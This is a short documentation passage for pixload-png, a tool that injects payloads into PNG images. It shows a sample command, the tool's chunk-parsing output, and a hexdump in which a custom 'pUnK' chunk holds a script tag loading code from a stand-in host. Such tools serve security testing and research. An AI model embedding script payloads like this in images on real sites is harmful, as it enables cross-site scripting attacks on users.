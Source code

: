 ##### Example

```sh
$ pixload-png payload.png
```

```
........ PNG Payload Creator/Injector .........
...............................................
... https://github.com/chinarulezzz/pixload ...
...............................................

[>] Generating output file
[✔] File saved to: payload.png

[>] Injecting payload into payload.png

[+] Chunk size: 13
[+] Chunk type: IHDR
[+] CRC: fc18eda3
[+] Chunk size: 9
[+] Chunk type: pHYs
[+] CRC: 952b0e1b
[+] Chunk size: 25
[+] Chunk type: IDAT
[+] CRC: c8a288fe
[+] Chunk size: 0
[+] Chunk type: IEND

[>] Inject payload to the new chunk: 'pUnk'
[✔] Payload was injected successfully

payload.png: PNG image data, 32 x 32, 8-bit/color RGB, non-interlaced

00000000  89 50 4e 47 0d 0a 1a 0a  00 00 00 0d 49 48 44 52  |.PNG........IHDR|
00000010  00 00 00 20 00 00 00 20  08 02 00 00 00 fc 18 ed  |... ... ........|
00000020  a3 00 00 00 09 70 48 59  73 00 00 0e c4 00 00 0e  |.....pHYs.......|
00000030  c4 01 95 2b 0e 1b 00 00  00 19 49 44 41 54 48 89  |...+......IDATH.|
00000040  ed c1 31 01 00 00 00 c2  a0 f5 4f ed 61 0d a0 00  |..1.......O.a...|
00000050  00 00 6e 0c 20 00 01 c8  a2 88 fe 00 00 00 00 49  |..n. ..........I|
00000060  45 4e 44 ae 42 60 82 00  00 00 00 00 00 00 00 00  |END.B`..........|
00000070  00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |................|
*
000000c0  00 23 50 55 6e 4b 3c 73  63 72 69 70 74 20 73 72  |.#PUnK<script sr|
000000d0  63 3d 2f 2f 65 78 61 6d  70 6c 65 2e 63 6f 6d 3e  |c=//example.com>|
000000e0  3c 2f 73 63 72 69 70 74  3e eb fd 2e 9f 00 49 45  |</script>.....IE|
000000f0  4e 44                                             |ND|
000000f2
```

See [pixload-png(1)](https://github.com/chinarulezzz/pixload/blob/master/pixload-png.1.pod)
manual page for more information.
